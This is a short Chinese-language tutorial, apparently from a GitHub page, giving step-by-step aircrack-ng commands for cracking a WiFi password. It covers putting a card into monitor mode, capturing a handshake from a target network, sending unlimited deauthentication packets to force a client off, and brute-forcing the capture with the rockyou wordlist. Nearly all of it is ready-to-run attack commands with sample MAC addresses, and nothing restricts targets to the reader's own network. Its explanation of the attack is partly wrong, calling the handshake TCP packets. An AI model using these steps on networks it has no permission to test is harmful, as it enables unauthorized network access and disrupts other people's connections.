 开启网卡监听：   airmon-ng start wlan0

检验网卡是否设置成功： iwconfig

wifi扫描： airodump-ng wlan0mon:
BSSID为wifi的MAC地址，PWR为信号强弱程度，数值越小信号越强；#DATA为数据量，越大使用的人就越多，CH为信道频率（频道），ESSID为wifi的名称.


抓包：
airodump-ng --bssid BSSID -c 信道频率 -w 抓包存储的路径 wlan0mon
如：airodump-ng --bssid D8:63:75:2C:93:59 -c 13 -w /home/study wlan0mon


如果抓取不到数据，新建一个终端：键入airepaly-ng -0 0 -c 连接到WiFi的手机mac地址 -a bssid 网卡名（一般为wlan0mon）
如：aireplay-ng -0 0 -c 72:37:D8:24:42:76 -a D8:63:75:2C:93:59 wlan0mon
(0 WiFi设备无限次数,-0 8则攻击8次。攻击原理是：先让设备掉线，设备会再自动连接，并发这个自动连接过程会进行三次握手，会发送tcp包（里面包含加密的密码数据），
我方伪装成WiFi热点去窃取该数据包。我方窃取后即可用字典穷举法暴力破解加密的WiFi密码,数据包里面的密码是哈希加密的，哈希加密只能正向)



解压字典：
解压kali自带的字典文件 路径：/usr/share/wordlists/rockyou.txt.gz
如 ：gzip -d /usr/share/wordlists/rockyou.txt.gz

爆破：
键入 aircrack-ng -w 字典路径 握手包路径，回车后开始爆破
如：aircrack-ng -w /usr/share/wordlists/rockyou.txt /home/study-01.cap


特别说明：暴力破解并不简单，需要足够强大的字典和时间，可以通过字典生成工具生成自己的字典，字典越强大越容易破解。。哈哈，也是需要点运气的！

